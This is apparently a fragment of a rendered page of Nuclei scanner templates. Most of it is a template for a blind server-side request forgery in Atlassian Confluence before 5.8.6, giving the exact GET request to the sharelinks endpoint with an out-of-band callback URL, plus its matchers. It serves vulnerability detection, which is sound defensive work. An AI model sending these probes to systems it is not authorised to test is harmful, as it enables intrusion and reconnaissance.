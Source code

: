 ### Matchers

**Type - word**

- part - body
- words
  1. NessusFileIncludeTest

---

# Atlassian Confluence < 5.8.6 Server-Side Request Forgery

## Description

- Atlassian Confluence < 5.8.6 is affected by a blind server-side request forgery vulnerability in the widgetconnector plugin.
- severity - medium
- tags - confluence,atlassian,ssrf,oast

## Requests

- Method - GET

### URL

- {{BaseURL}}/rest/sharelinks/1.0/link?url=https://{{interactsh-url}}/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - word**

- part - body
- words
  1. faviconURL
  2. domain
- condition - and

**Type - status**

- status
  1. 200

---

# XMLRPC Pingback SSRF
